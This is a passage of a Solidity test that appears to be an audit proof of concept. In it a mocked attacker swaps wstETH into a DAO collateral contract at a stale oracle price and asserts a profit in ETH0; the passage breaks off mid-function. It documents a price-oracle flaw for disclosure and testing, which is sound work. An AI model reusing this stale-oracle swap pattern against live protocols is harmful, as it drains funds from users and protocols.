 ```solidity
        // This is the amount of ETH0 the attacker expects to get based on the price oracle reports (newMarketPrice)
        uint256 expectedEth0OutForAttacker = _calculateExpectedEth0Out(_SWAP_AMOUNT, uint256(newMarketPrice), _WSTETH_DECIMALS);
        // console.log("Expected ETH0 out for attacker based on newMarketPrice (stale but accepted by oracle):", expectedEth0OutForAttacker);

        uint256 attackerEth0BalanceBefore = _eth0Poc.balanceOf(_attacker);
        uint256 attackerWstEthBalanceBefore = _mockWstEthToken.balanceOf(_attacker);
        console.log("Attacker ETH0 balance before swap:", attackerEth0BalanceBefore);
        console.log("Attacker wstETH balance before swap:", attackerWstEthBalanceBefore);

        _daoCollateralPoc.swap(address(_mockWstEthToken), _SWAP_AMOUNT, 0);

        uint256 attackerEth0BalanceAfter = _eth0Poc.balanceOf(_attacker);
        uint256 attackerWstEthBalanceAfter = _mockWstEthToken.balanceOf(_attacker);
        uint256 eth0ReceivedByAttacker = attackerEth0BalanceAfter - attackerEth0BalanceBefore;
        console.log("Attacker ETH0 balance after swap:", attackerEth0BalanceAfter);
        console.log("Attacker wstETH balance after swap:", attackerWstEthBalanceAfter);
        console.log("ETH0 received by attacker:", eth0ReceivedByAttacker);

        assertEq(attackerWstEthBalanceBefore - attackerWstEthBalanceAfter, _SWAP_AMOUNT, "Attacker should have spent _SWAP_AMOUNT wstETH");
        assertApproxEqAbs(eth0ReceivedByAttacker, expectedEth0OutForAttacker, 1, "Attacker should receive ETH0 based on the new (stale but accepted by oracle) price");

        // --- Quantifying Attacker's Advantage ---
        // Assume the *true current non-Lido market price* of wstETH had dropped even further,
        // e.g., to `hypotheticalTrueMarketPrice = 9 * 10**(_WSTETH_DECIMALS - 1)`,
        // while the Lido feed (and thus our ClassicalOracle) is stuck reporting `newMarketPrice = 10 * 10**(...)`
        // because ChainlinkMockLido.latestRoundData() reports block.timestamp as updatedAt.
        // The attacker deposits wstETH which the protocol values at `newMarketPrice` (10e17 in this example),
        // but this wstETH is only worth `hypotheticalTrueMarketPrice` (9e17) on the open market.

        int256 hypotheticalTrueMarketPrice = int256(9 * 10**(_WSTETH_DECIMALS - 1)); // Corrected variable name
        uint256 actualMarketValueSwappedByAttacker = (_SWAP_AMOUNT * uint256(hypotheticalTrueMarketPrice)) / (10**_WSTETH_DECIMALS);
        uint256 valueReceivedByAttackerInEth0Terms = eth0ReceivedByAttacker; // ETH0 is pegged 1:1 to ETH for this calculation of value

        console.log("Value of wstETH swapped by attacker (at hypothetical true market price of 9e17):", actualMarketValueSwappedByAttacker);
        console.log("Value of ETH0 received by attacker (protocol valued wstETH at 10e17 via oracle):", valueReceivedByAttackerInEth0Terms);

        assertTrue(valueReceivedByAttackerInEth0Terms > actualMarketValueSwappedByAttacker, 
            "Attacker received more value in ETH0 terms than the hypothetical true market value of the wstETH they deposited");

        uint256 attackerProfitInEthTerms = valueReceivedByAttackerInEth0Terms - actualMarketValueSwappedByAttacker;
        console.log("Attacker's profit (in ETH terms, assuming ETH0 is 1:1 with ETH, based on hypothetical true market price):", attackerProfitInEthTerms);

        vm.stopPrank();
    }

    function _calculateExpectedEth0Out(
        uint256 collateralAmountIn,
        uint256 collateralPrice,
```